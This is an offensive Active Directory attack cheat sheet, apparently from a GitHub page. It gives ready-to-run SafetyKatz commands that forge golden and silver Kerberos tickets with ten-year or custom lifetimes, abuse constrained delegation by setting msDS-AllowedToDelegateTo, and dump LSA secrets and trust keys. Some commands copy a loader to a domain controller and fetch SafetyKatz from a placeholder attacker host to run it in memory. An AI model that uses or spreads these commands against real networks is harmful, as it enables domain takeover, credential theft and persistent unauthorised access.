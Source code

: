 ## Domain persistence

### Golden ticket

/sid: xxx => domain SID
/krbtgt:xxx => krbtgt NTLM hash (use /aes128 or /aes256 for AES hashes)
/id:xxx => optional user RID (default 500)
/groups:xxx => optional group (default 513 512 520 518 519)
/startoffset:xxx => optional when ticket is available (default 0)
/endin:xxx => optional ticket lifetime (default 10 years)
/renewmax:xxx => optional ticket lifetime with renewal (default 7 days)
```Powershell
BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<domain> /sid:xxx /aes256:xxx /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

```Powershell
xcopy Loader.exe \\<dc>\C$\Users\Public\Loader.exe

winrs -r:<dc> cmd

C:\Users\Public\Loader -path http://<attacker>/SafetyKatz.exe "lsadump::lsa /patch" "exit"
```

### Silver ticket

```Powershell
SafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<domain_sid> /target:<server>.<domain> /service:<service> /rc4:<service_acc_hash> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

### msDS-AllowedToDelegateTo

```Powershell
Set-ADUser -Identity devuser -ServicePrincipalNames @{Add='dev/svc'}
Set-ADUser -Identity devuser -Add @{'msDS-AllowedToDelegateTo'= @('ldap/us-dc','ldap/us-dc.us.techcorp.local')} -Verbose

Set-ADAccountControl -Identity devuser -TrustedToAuthForDelegation $true

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS- AllowedToDelegateTo
```

## Cross trust attacks

### Exchange

### Trustkey

In process as domain admin
```Powershell
Loader.exe -path http://<attacker>/SafetyKatz.exe "lsadump::trust /patch" "exit"
```
=> Look for `[IN]`
